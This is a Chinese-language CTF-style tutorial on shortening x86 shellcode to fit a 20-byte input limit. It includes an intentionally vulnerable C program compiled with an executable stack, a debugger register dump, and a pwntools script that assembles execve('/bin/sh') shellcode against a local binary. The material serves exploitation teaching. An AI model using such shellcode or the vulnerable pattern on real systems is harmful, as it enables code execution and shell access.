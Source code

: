 # Baby Shellcode

对接受的字符串长度做了一点限制，需要通过一些 Tricks 来缩短 Shellcode 的长度。

## shellcode_20

Source Code：

```c
// gcc main.c -m32 -z execstack -o main
#include <stdio.h>
int main() {
	void (*ptr)();
	char buf[0x20];
	puts("shellcode>>");
	read(0, buf, 20);
	ptr = buf;
	ptr();
}
```

32 位下，`mov ecx, 0` 是 5 个字节，而 `xor ecx, ecx` 只有 2 个字节，两者同样是给寄存器清零，后者可以省去 3 个字节。`mov eax, 0xb` 同样需要 5 个字节，而在 eax 为 0 的情况下，我们只需要 `mov al, 0xb`，只需要 2 个字节。`mul ebx` 需要 2 个字节，其作用是将 eax 中值与 ebx 相乘，所得结果高位存在 edx，低位存在 eax。在调试中我们发现 ebx 的值为零，此时使用乘法指令可以直接使 eax 和 edx 的值变为 0，可以直接对 al 赋值，同时不用再对 edx 清零。最终 Shellcode 的长度缩短为 20 字节。执行 shellcode 时寄存器的状态：

```
─────────────────────────────────────────────────────────────────────────[ REGISTERS ]──────────────────────────────────────────────────────────────────────────
 EAX  0xffffd6ec —▸ 0xf7e20a50 ◂— jb     0xf7e20a54 /* 'fer' */
 EBX  0x0
 ECX  0xffffd6ec —▸ 0xf7e20a50 ◂— jb     0xf7e20a54 /* 'fer' */
 EDX  0x14
 EDI  0xf7fc5000 (_GLOBAL_OFFSET_TABLE_) ◂— mov    al, 0x1d /* 0x1b1db0 */
 ESI  0xf7fc5000 (_GLOBAL_OFFSET_TABLE_) ◂— mov    al, 0x1d /* 0x1b1db0 */
 EBP  0xffffd718 ◂— 0x0
 ESP  0xffffd6dc —▸ 0x80484d5 (main+74) ◂— mov    eax, 0
 EIP  0xffffd6ec —▸ 0xf7e20a50 ◂— jb     0xf7e20a54 /* 'fer' */
───────────────────────────────────────────────────────────────────────────[ DISASM ]───────────────────────────────────────────────────────────────────────────
 ► 0xffffd6ec    push   eax
   0xffffd6ed    or     ah, dl
   0xffffd6ef    test   dword ptr [ecx], 0
   0xffffd6f5    add    byte ptr [eax], al
   0xffffd6f7    add    byte ptr [eax + 0x1a], dl
    ↓
   0xffffd6f7    add    byte ptr [eax + 0x1a], dl
```

Exploit：

```python
#!/usr/bin/env python
from pwn import *
p = process('./main')
context.arch = 'i386'
sh = asm('''
	mul ebx
	mov al, 0xb
	xor ecx, ecx
	push 0x0068732f
	push 0x6e69622f
	mov ebx, esp
	int 0x80
''')
```